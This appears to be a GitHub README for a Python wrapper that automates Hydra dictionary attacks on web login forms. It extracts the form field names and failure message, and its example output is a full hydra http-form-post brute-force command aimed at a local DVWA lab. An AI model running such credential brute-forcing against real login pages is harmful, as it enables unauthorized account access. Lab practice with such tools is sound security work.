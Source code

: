 # HydraAutomation
Trying to automate hydra dic attacks against web pages so that the user doesn't have to go into the DOM in order to find the variable names for ^USER^ ,^PASS^, the form method, and failure response.

Currently, the program is only suited for http-form-post attacks and I have been using DVWA as my lab for testing.

The program is a wrapper so it requires hydra and of course Python to be preinstalled.

Run the program on the command line 
> Python HydraAutomation.py URLOrIPAddress

Example:

> Python HydraAutomation.py http://localhost/DVWA-1.0.8/login.php
>--------------------------------------------
>HYDRA COMMAND AUTOMATER RESULTS:
>"login.php:
>username=^USER^
>password=^PASS^
>:Login failed"
>
>hydra http://localhost/DVWA-1.0.8/login.php http-form-post "login.php:username=^USER^&password=^PASS^:Login failed" -L user.txt -P >pass.txt -t 10
